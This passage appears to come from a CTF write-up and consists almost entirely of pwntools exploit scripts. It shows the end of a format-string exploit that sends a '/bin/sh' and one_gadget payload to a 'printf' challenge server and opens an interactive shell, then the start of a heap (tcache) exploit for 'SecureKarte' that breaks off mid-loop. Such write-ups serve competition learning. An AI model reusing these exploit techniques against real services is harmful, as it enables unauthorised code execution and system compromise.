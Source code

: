 ```pyhton

    payload = "/bin/sh;%c" + '%c' * 26 + ';' * 5 + p64(one_gadget)[ : 6] + '%%%dc' % offest + '%c' + ';' * 8 + '%c' * (8 * 4 - 26)
    payload = payload.ljust(0x100, '\x00')
    p.recvuntil("comment?\n")
    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    GameStart('printf.chal.ctf.westerns.tokyo', 10001, 0)
```

## SecureKarte (Pwn) 255pt

```python
from pwn import *
context.log_level = 'debug'

def add(sz, des):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil(' > ')
    p.sendline(str(sz))
    p.recvuntil(' > ')
    p.send(des)
    p.recvuntil('Added id ')
    return int(p.recvline()[ : -1])

def delete(idx):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil(' > ')
    p.sendline(str(idx))

def modify(idx, des):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil(' > ')
    p.sendline(str(idx))
    p.recvuntil(' > ')
    p.send(des)

def rename(name):
    p.recvuntil('> ')
    p.sendline('99')
    p.recvuntil('name... ')
    p.send(name)

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        p = process('./karte', env = {"LD_PRELOAD" : './libc.so.6'})
    else:
        p = remote(ip, port)
    p.recvuntil('name... ')
    p.send(p64(0) + p64(0x80))

    for i in range(7):
        idx = add(0x78, 'swing tql')
        delete(idx)

    for i in range(7):
```